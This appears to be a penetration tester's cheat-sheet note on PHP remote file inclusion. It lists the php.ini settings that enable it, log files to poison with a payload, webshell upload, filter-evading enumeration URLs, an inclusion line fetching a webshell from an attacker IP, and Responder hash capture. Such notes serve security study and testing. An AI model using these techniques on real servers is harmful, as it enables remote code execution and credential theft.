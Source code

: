 # Manual

## Conditions

```
$ cat /etc/php/7.4/apache2/php.ini
..[omitted]..
allow_url_fopen = On
allow_url_include = On
..[omitted]..
```

Poison log files to insert payload

```
/var/log/apache/access.log
/var/log/nginx/error_log
/var/log/auth.log
```

Send via email

Upload a webshell in a vulnerable file upload form

## Enumeration

### Cross Platform

```
https://cirt.net/rfiinc.txt
HTTPS://cirt.net/rfiinc.txt
httPs://cirt.net/rfiinc.txt
```

## Exploit

### Cross Platform

Note: Look at `phpinfo()` for `disabled_functions`. If there are then check **hacktricks** in the reference links below.

```
http://<attacker_IP>/webshell.php
```

### Windows

Note: This doesn't require `allow_url_include` to be enabled.

- Grab NTLM hashes with Responder (out of band)

---
## References

- [[02 - File Inclusion Payloads|File Inclusion Payloads]]

- [Hacking Articles: Comprehensive Guide on Remote File Inclusion (RFI)](https://www.hackingarticles.in/comprehensive-guide-on-remote-file-inclusion-rfi/)

- [Local File Inclusion Code Execution](https://resources.infosecinstitute.com/topic/local-file-inclusion-code-execution/)

- [File Inclusion (Local/Remote)](https://notes.defendergb.org/web-sec/vuln/lfi-rfi)

- [SecurityIdiots: Guide to LFI](https://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)